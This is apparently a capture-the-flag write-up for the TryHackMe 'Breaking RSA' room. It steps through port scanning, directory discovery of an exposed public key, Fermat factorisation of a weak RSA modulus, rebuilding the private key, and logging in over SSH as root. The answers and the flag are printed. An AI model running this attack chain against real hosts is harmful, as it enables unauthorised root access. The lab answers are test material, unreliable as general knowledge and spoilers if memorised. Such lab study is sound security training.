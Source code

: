 ![Breaking RSA Banner](https://assets.tryhackme.com/img/banners/default_tryhackme.png)

<p align="center">
   <img src="https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/breakrsa/Breaking_Rsa_Cover.png" alt="Breaking RSA Logo">
</p>

# Breaking RSA

This guide contains the answer and steps necessary to get to them for the [Breaking RSA](https://tryhackme.com/room/breakrsa) room.

### Capture the flag

1. How many services are running on the box?

   Using nmap will give us the running services.

   ```console
   nmap -sS -sV 10.10.97.159 -Pn -p-
   ```

   ![Nmap](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/breakrsa/Breaking_Rsa_Nmap.png)

   ><details><summary>Click for answer</summary>2</details>

2. What is the name of the hidden directory on the web server? (without leading '/')

   We can use multiple tools for this task. I will use `dirsearch` here.

   ```console
   dirsearch -u 10.10.97.159:80 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -r
   ```

   ![Directory](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/breakrsa/Breaking_Rsa_Directory.png)

   This gives us a hidden directory which happens to contain an id_rsa key.

   ><details><summary>Click for answer</summary>development</details>

3. What is the length of the discovered RSA key? (in bits)

   To find details about the key, we can use `ssh-keygen`.

   ```console
   ssh-keygen -l -f Downloads/id_rsa.pub 
   ```

   ![Length](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/breakrsa/Breaking_Rsa_Length.png)

   ><details><summary>Click for answer</summary>1096</details>

4. What are the last 10 digits of n? (where 'n' is the modulus for the public-private key pair)

   To get the components of the public key we can use the suggested python module 'pydryptodome'.

   First we must convert the public key to PEM format using `ssh-keygen`.

   ```console
   ssh-keygen -e -f id_rsa.pub -m pem
   ```

   Now we can use the following python code to extract the modulus 'n':

   ```python
   from Crypto.PublicKey import RSA
   key_encoded='''<id_rsa key here>'''


   pubkey = RSA.importKey(key_encoded)
   print(f"Modulus n is: {pubkey.n}")
   print(f"Constant e is: {pubkey.e}")
   ```

   ![Modulus](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/breakrsa/Breaking_Rsa_Modulus.png)

   ><details><summary>Click for answer</summary>1225222383</details>

5. Factorize n into prime numbers p and q

   The provided script didn't work as the modulus was too large to be handled by it. Modifying it also didn't work, so I used a different script.

   ```python
   def isqrt(n):
	x=n
	y=(x+n//x)//2
	while(y<x):
		x=y
		y=(x+n//x)//2
	return x
   def fermat(n):
      t0=isqrt(n)+1
      counter=0
      t=t0+counter
      temp=isqrt((t*t)-n)
      while((temp*temp)!=((t*t)-n)):
         counter+=1
         t=t0+counter
         temp=isqrt((t*t)-n)
      s=temp
      p=t+s
      q=t-s
      return p,q

   print("Enter the number to factor of form (p*q):	")
   n=int(input())
   p,q=fermat(n)
   print("Your first number   : ",int(p))
   print("Your Second number  : ",int(q))
   ```

   Now we can enter the modulus we acquired and we are given 'p' and 'q'.

   ![Factorized](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/breakrsa/Breaking_Rsa_Factorized.png)

   ><details><summary>Click for answer</summary></details>

6. What is the numerical difference between p and q?

   The previous script also outputs the differences between the two factors.

   ><details><summary>Click for answer</summary>1502</details>

7. Generate the private key using p and q (take e = 65537)

   I first tried using openssl, without any success. So I used the pycryptodome library to create a python script to help me with this.

   ```python
   from Crypto.PublicKey import RSA

   # Specify the factors
   p = <first prime>
   q = <second prime>
   e = 65537

   # Calculate n and d
   n = p * q
   phi = (p - 1) * (q - 1)
   d = pow(e, -1, phi)

   # Create the RSA key object
   key = RSA.construct((n, e, int(d)))

   # Export the private key to a PEM file
   with open("private_key.pem", "wb") as f:
      f.write(key.export_key())
   ```

   Add both primes we found in the previous step and generate the private key.

   ```console
   python genpkey.py
   ```

   ![Private Key](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/breakrsa/Breaking_Rsa_Private_Key.png)

8. What is the flag?

   Now that we have the private key, we can use it to ssh into the machine. From the hidden directory we also learned that root login was enabled.

   First restrict usage of the private keu with `chmod`:

   ```console
   chmod 600 private_key.pem
   ```

   Now we can ssh into the machine as root with:

   ```console
   ssh root@10.10.97.159 -i private_key.pem
   ```

   ![Ssh](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/breakrsa/Breaking_Rsa_Ssh.png)

   ![Flag](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/breakrsa/Breaking_Rsa_Flag.png)

   ><details><summary>Click for answer</summary>breakingRSAissuperfun20220809134031</details>